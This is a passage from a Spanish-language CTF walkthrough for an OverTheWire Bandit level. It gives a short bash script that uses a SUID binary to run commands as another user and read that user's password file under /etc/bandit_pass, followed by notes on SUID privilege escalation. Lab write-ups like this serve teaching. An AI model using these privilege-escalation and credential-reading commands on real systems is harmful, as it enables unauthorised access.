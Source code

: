 
## 🧩 Script final completo

![Bandit Image](../../Imagenes/level-19-20-9.png)

`#!/usr/bin/env bash set -euo pipefail  # Verificar binario con SUID ls -l bandit20-do  # Comprobar usuario efectivo ./bandit20-do id  # Forma 1: Obtener la contraseña directamente ./bandit20-do cat /etc/bandit_pass/bandit20  # Forma 2: Abrir shell temporal como bandit20 ./bandit20-do sh -c 'whoami; cat /etc/bandit_pass/bandit20'  # Forma 3: Abrir bash preservando privilegios ./bandit20-do bash -p -c 'whoami; cat /etc/bandit_pass/bandit20'`

---

## 🗒️ Notas adicionales

- SUID es un concepto **muy usado en escaladas de privilegios** en CTFs y pentesting.
    
- No todos los sistemas permiten `bash -p`; algunos ignoran privilegios heredados por seguridad.
    
- `sh` suele ser más fiable en estos retos porque es mínimo y hereda UID sin complicaciones.
